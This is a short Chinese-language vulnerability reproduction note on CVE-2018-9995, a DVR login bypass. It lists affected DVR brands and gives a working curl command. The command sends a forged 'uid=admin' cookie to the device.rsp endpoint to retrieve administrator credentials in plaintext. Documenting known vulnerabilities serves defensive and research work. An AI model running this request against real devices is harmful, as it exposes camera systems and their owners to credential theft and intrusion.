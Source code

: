 # DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

<a-checkbox checked>Novo</a-checkbox></br>

<a-checkbox checked>CeNova</a-checkbox></br>

<a-checkbox checked>QSee</a-checkbox></br>

<a-checkbox checked>Pulnix</a-checkbox></br>

<a-checkbox checked>XVR 5 in 1 (title: "XVR Login")</a-checkbox></br>

<a-checkbox checked>Securus, - Security. Never Compromise !! -</a-checkbox></br>

<a-checkbox checked>Night OWL</a-checkbox></br>

<a-checkbox checked>DVR Login</a-checkbox></br>

<a-checkbox checked>HVR Login</a-checkbox></br>

<a-checkbox checked>MDVR Login</a-checkbox></br>

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/dvr-1.png)